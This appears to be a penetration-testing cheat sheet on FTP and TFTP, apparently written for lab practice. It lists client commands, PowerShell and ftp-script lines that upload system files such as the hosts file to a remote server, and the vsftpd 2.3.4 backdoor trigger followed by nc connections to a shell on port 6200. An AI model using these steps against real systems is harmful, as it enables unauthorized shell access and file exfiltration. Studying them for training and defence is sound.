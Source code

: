 ```yaml
---
description: File Transfer Protocol
icon: file-chart-column
---
```


# FTP

{% hint style="info" %}
* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`Port 20`**</mark> <mark style="color:purple;">for</mark> <mark style="color:purple;">**Data**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">and</mark> <mark style="color:orange;">**`Port 21`**</mark>**&#x20;**<mark style="color:purple;">**for Commands.**</mark>&#x20;
* <mark style="color:purple;">It can use</mark> <mark style="color:orange;">**`UDP`**</mark> <mark style="color:purple;">over</mark> <mark style="color:orange;">**`Port 69`**</mark> <mark style="color:purple;">for</mark> <mark style="color:orange;">**`TFTP`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Always check for</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login being enabled.</mark>
{% endhint %}

<details>

<summary><mark style="color:purple;"><strong><code>Basic Commands</code></strong></mark></summary>

{% hint style="info" %}
* <mark style="color:purple;">Start the service:</mark>

```bash
ftp <IP>
```

* <mark style="color:purple;">To login as any other user:</mark>

```bash
USER <user>
```

* <mark style="color:purple;">To specify a password:</mark>

```bash
PASS <password>
```

* <mark style="color:purple;">Download a file:</mark>

```sh
get <file>
```

* <mark style="color:purple;">Upload a file:</mark>

```sh
put <file_path> <destination_path>
```

* <mark style="color:purple;">Passive mode:</mark>

```sh
passive
```

* <mark style="color:purple;">Change the local directory for downloads:</mark>

```sh
lcd /home/<your-username>
```

* <mark style="color:purple;">Exit the session:</mark>

```shell
quit
```

* <mark style="color:purple;">Transferring files using</mark> <mark style="color:orange;">**`powershell`**</mark><mark style="color:purple;">:</mark>

{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
{% endcode %}

* <mark style="color:purple;">Upload a file using</mark> <mark style="color:orange;">**`powershell`**</mark>

```powershell
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

* <mark style="color:purple;">If</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">login is enabled, use</mark> <mark style="color:orange;">**`curl`**</mark><mark style="color:purple;">:</mark>

```sh
curl -O ftp://<server-address>/path/to/file
```
{% endhint %}

</details>

<details>

<summary><mark style="color:orange;"><strong><code>TFTP</code></strong></mark></summary>

{% hint style="info" %}
<mark style="color:purple;">This is the default config file for</mark> <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">--></mark> <mark style="color:orange;">**`tftpd-hpa`**</mark>
{% endhint %}

{% hint style="info" %}
{% code title="Start the service" %}
```sh
tftp <IP>
```
{% endcode %}

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`binary`**</mark> <mark style="color:purple;">mode for non-text files:</mark>

```
mode binary
```

* <mark style="color:purple;">Uses</mark> <mark style="color:orange;">**`ASCII`**</mark> <mark style="color:purple;">mode for text files:</mark>

```
mode ascii
```

* <mark style="color:purple;">To look for files in the</mark>  <mark style="color:orange;">**`TFTP`**</mark> <mark style="color:purple;">root:</mark>

```sh
find / -name file.txt
```
{% endhint %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Enumeration</code></strong></mark></summary>

* <mark style="color:purple;">Is always good practice to look for vulnerabilities:</mark>

```sh
searchsploit <version>
```

* <mark style="color:purple;">Always check where you land:</mark>

```sh
pwd
```

* <mark style="color:purple;">List directories:</mark>

```sh
dir
```

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Set a Python Server</code></strong></mark></summary>

* <mark style="color:purple;">First, Install the</mark> <mark style="color:green;">**`Python`**</mark> <mark style="color:purple;">module:</mark>

```sh
sudo pip3 install pyftpdlib
```

* <mark style="color:purple;">Then, set the server:</mark>

```sh
sudo python3 -m pyftpdlib --port 21
```

* <mark style="color:purple;">By default,</mark> <mark style="color:orange;">**`pyftpdlib`**</mark> <mark style="color:purple;">uses</mark> <mark style="color:orange;">**`Port 2121`**</mark> <mark style="color:purple;">and</mark> <mark style="color:orange;">**`anonymous`**</mark> <mark style="color:purple;">authentication is enabled by default if we don't set a user and password.</mark>

{% code title="Allow write permissions" overflow="wrap" %}
```sh
sudo python3 -m pyftpdlib --port 21 --write
```
{% endcode %}

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Create a command file</code></strong></mark></summary>

* <mark style="color:purple;">Is possible to create command files and execute then using the</mark> <mark style="color:orange;">**`-s`**</mark> <mark style="color:purple;">flag:</mark>

```sh
ftp -v -n -s:ftpcommand.txt
```

* <mark style="color:purple;">Copy this in to a file to create a script that will</mark> <mark style="color:orange;">**`download`**</mark> <mark style="color:purple;">a file:</mark>

```bash
open 192.168.49.128
USER anonymous
binary
GET file.txt
bye
```

* <mark style="color:purple;">Copy this in to a file to create a script that will</mark> <mark style="color:orange;">**`upload`**</mark> <mark style="color:purple;">a file to the server:</mark>

```sh
open 192.168.49.128
USER anonymous
binary
PUT c:\windows\system32\drivers\etc\hosts
bye
```

</details>

<details>

<summary><mark style="color:purple;"><strong><code>Vulnerabilities</code></strong></mark></summary>

{% hint style="danger" %}
### <mark style="color:orange;">`vsftpd 2.3.4`</mark>

* <mark style="color:purple;">Connect to</mark> <mark style="color:orange;">**`FTP`**</mark> <mark style="color:purple;">with any username that contains</mark> <mark style="color:orange;">**`:)`**</mark><mark style="color:purple;">, and</mark> <mark style="color:orange;">**`any password`**</mark><mark style="color:purple;">.</mark>
* <mark style="color:purple;">Then connect to</mark> <mark style="color:orange;">**`port 6200`**</mark> <mark style="color:purple;">to get a shell:</mark>

```bash
nc 10.10.10.131 21
```

* <mark style="color:purple;">Now connect to the backdoor:</mark>

```bash
nc 10.10.10.131 6200
```
{% endhint %}

</details>
